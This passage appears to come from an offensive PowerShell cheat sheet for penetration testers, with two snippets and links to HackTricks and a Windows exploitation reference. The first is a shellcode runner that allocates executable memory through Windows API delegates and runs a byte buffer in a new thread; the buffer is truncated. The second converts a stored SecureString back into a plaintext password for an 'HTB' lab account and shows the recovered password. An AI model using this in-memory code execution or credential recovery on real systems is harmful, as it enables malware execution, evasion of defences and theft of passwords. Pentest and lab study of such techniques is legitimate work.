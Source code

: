 ```powershell
# Simple Shellcode runner using delegation
$VirtualAllocAddr = LookupFunc "Kernel32.dll" "VirtualAlloc"
$CreateThreadAddr = LookupFunc "Kernel32.dll" "CreateThread"
$WaitForSingleObjectAddr = LookupFunc "Kernel32.dll" "WaitForSingleObject" 


$VirtualAlloc = Get-Delegate $VirtualAllocAddr @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$CreateThread = Get-Delegate $CreateThreadAddr @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$WaitForSingleObject = Get-Delegate $WaitForSingleObjectAddr @([IntPtr], [Int32]) ([Int])

[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0 ...

$mem = $VirtualAlloc.Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)
$hThread = $CreateThread.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
$WaitForSingleObject.Invoke($hThread, 0xFFFFFFFF)

```

## Secure String to Plaintext

```ps1
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## References

* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference - @chvancooten](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)
* [Basic PowerShell for Pentesters - HackTricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)